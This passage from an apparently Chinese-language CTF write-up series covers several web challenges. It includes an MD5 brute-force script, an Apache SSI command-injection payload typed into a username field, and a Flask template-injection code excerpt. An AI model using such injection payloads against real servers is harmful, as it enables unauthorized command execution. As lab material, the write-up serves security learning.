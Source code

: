 ```python
import hashlib 
for i in range(100000000): 
    a = hashlib.md5(str(i).encode("utf-8")).hexdigest() 
    f a[0:6] == '6d0bc1': 
        print(i)
```

发过去之后：public/dc64a1535c94b7babc55ab528fea462c46e94e90.shtml

然后回显

```
Hello,6d0bc1

data: Tuesday, 05-Oct-2021 10:58:18 UTC

Client IP: 117.152.88.50
```

感觉是xff，但是没用，看wp说是《Apache SSI远程命令执行漏洞》

在username写`<!--#exec cmd="ls"-->`，然后在response给的链接打开。

慢慢找就找到flag了。

# 0x3B.[BSidesCF 2019]Futurella

....也不知道想考啥，进去就有flag

# 0x3C.[GYCTF2020]FlaskApp



```python
@app.route('/decode',methods=['POST','GET'])
def decode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64decode(text.encode())
        tmp = "结果 ： {0}".format(text_decode.decode())
        if waf(tmp) :
            flash("no no no !!")
	return redirect(url_for('decode')
        res =  render_template_string(tmp)
```

# 0x3D.[BSidesCF 2019]Kookie

提示：

```
 Log in as admin!

We found the account cookie / monster 
```
